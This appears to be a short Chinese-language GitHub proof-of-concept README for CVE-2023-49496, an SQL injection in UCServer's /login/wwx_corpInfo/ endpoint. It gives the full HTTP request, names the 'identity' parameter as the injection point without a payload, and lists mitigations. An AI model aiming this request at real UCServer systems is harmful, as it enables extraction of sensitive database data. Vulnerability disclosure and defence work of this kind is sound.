

# CVE-2023-49496_PoC

## 描述
UCServer是一款先进的融合通讯服务器。 上海澍品信息科技有限公司UCServer存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## POC
```python
POST /login/wwx_corpInfo/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://example.com/
Content-Length: 132
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: example.com
Proxy-Connection: Keep-alive

&identity=
```

## 演示
POST 请求体中 "identity" 为注入点



## 临时解决方案
<font style="color:rgb(62, 62, 62);background-color:rgb(239, 239, 239);">开启网站防火墙；禁止任何 IP 访问 "/login/wwx_corpInfo/" 路径；禁止数据库接受外部远程连接；升级数据库版本。</font>

